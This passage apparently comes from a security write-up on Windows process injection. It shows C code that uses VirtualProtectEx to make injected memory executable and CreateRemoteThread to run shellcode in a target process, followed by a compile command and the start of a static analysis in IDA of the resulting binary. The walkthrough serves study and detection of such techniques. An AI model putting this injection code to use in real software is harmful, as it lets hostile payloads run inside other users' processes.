 Next is to update the allocated region in memory where we injected the payload to allow execution using the `VirtualProtectEx` Windows API. We’ll be updating it with memory constraints of `PAGE_EXECUTE_READWRITE` . Note that for this API you need to use the `old_protect` field, from the API docs: “[out] lpflOldProtect - A pointer to a variable that receives the previous access protection of the first page in the specified region of pages. If this parameter is NULL or does not point to a valid variable, the function fails.” Below is the code for it.

```c
    //
    // UPDATE PERMISSIONS TO ALLOW EXECUTION
    //
    DWORD old_protect = NULL;
    return_check = VirtualProtectEx( target_process, target_process_allocated_memory, payload_size, PAGE_EXECUTE_READWRITE, &old_protect );

    if( FALSE == return_check )
    {
        // printf( "[!] VirtualProtectEx() returned false! Error code: %d\n", GetLastError() );
        return 1;
    }
```

Last, we’ll execute the shellcode that was injected by using the `CreateRemoteThread` WinAPI:

```c
    //
    // EXECUTED SHELLCODE IN ALLOCATED MEMORY
    //
    HANDLE handle_remote_thread = NULL;

    handle_remote_thread = CreateRemoteThread( target_process, NULL, 0, target_process_allocated_memory, NULL, 0, NULL );

    if( NULL == handle_remote_thread )
    {
        // printf( "[!] CreateRemoteThread() failed!\n" );
        return 1;
    }

    // printf( "[+] Executed payload!\n" );
    return 0;
```

Compilation was done using Microsoft Visual Studio `cl.exe` compiler: `cl.exe no-obfuscation.c /Fe:no-obfuscation.exe`

## Static Analysis of no-obfuscation.exe

For the reverse engineering analysis, I will be using IDA freeware. To start off, we can look at the Import Address Table (IAT). From this Microsoft dev blog ([https://devblogs.microsoft.com/oldnewthing/20221006-07/?p=107257#:~:text=The import address table is the part of the Windows,functions imported from other DLLs](https://devblogs.microsoft.com/oldnewthing/20221006-07/?p=107257#:~:text=The%20import%20address%20table%20is%20the%20part%20of%20the%20Windows,functions%20imported%20from%20other%20DLLs)), this is how the IAT is described as:
